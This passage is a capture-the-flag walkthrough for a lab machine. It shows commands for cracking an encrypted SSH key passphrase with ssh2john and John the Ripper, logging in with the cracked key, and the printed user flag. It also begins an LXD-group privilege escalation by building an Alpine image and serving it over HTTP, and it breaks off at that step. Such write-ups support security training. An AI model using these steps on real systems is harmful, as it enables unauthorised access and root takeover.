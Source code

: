 Since the key was encrypted, I couldn’t use it directly with SSH. To crack it, I needed to extract the hash. On the AttackBox, the `ssh2john` script was located under `/opt/john/`:

```bash
python3 /opt/john/ssh2john.py id_rsa > id_rsa.hash
```

Then I used John the Ripper with the provided password list (`pass.txt`):

```bash
john --wordlist=pass.txt id_rsa.hash
```

John successfully found the passphrase:

```
letmein          (id_rsa)
```

---

## SSH as John

With the cracked passphrase, I could now log in as user john:

```bash
ssh -i id_rsa john@gaming.thm
```

When prompted, I entered the passphrase `letmein` and gained access.

Once in, I got the first flag:

> Q1: User flag
> A1: a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

---

## Privilege Escalation

I checked with:

```bash
id
```

Output:

```
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

The `john` user is a member of the **lxd** group, which means we can escalate using LXD containers.

On my AttackBox, I built a minimal Alpine image for LXD and served it over HTTP:

```bash
cd /root
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
sudo ./build-alpine
python3 -m http.server 8000 --bind 0.0.0.0
```
